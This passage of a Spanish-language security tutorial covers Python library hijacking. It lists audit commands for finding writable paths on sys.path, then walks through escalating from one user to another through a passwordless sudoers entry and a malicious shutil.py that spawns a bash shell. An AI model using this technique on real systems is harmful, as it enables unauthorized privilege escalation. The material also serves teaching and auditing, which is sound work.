 
---

## Comandos útiles para detección y auditoría

- Ver las rutas en las que Python buscará librerías:
    

```python
import sys
print(sys.path)
```

- Buscar módulos maliciosos en el directorio actual:
    

```bash
ls *.py
```

- Comprobar si hay librerías en rutas del sistema con permisos de escritura:
    

```bash
find $(python3 -c "import sys; print(' '.join(sys.path))") -type f -writable 2>/dev/null
```

---

## Ejemplo avanzado: Escalada de un usuario a otro mediante Python Library Hijacking y sudoers

En este escenario, estamos dentro de una máquina como el usuario `user1`, pero queremos pivotar al usuario `admin`. Durante el proceso de enumeración, encontramos que `admin` tiene una entrada en `/etc/sudoers` que le permite ejecutar un script Python como `sudo` **sin contraseña**:

```bash
user1@victima:~$ sudo -l -U admin
User admin may run the following commands without password:
    (ALL) NOPASSWD: /home/admin/backup.py
````

Este archivo puede ser ejecutado por `admin` con privilegios elevados, pero **el script no tiene ruta absoluta al importar módulos**, lo que lo hace vulnerable a Library Hijacking.

---

### Acción:

Como `user1`, creamos un archivo llamado `shutil.py` (una librería estándar que el script podría estar importando), con una carga maliciosa:

```python
# shutil.py malicioso
import os
os.system("/bin/bash")
```

Colocamos este archivo en el mismo directorio desde el que se ejecuta `backup.py`, o en otro directorio que tengamos en común con el usuario `admin` y que esté al principio en `sys.path`.
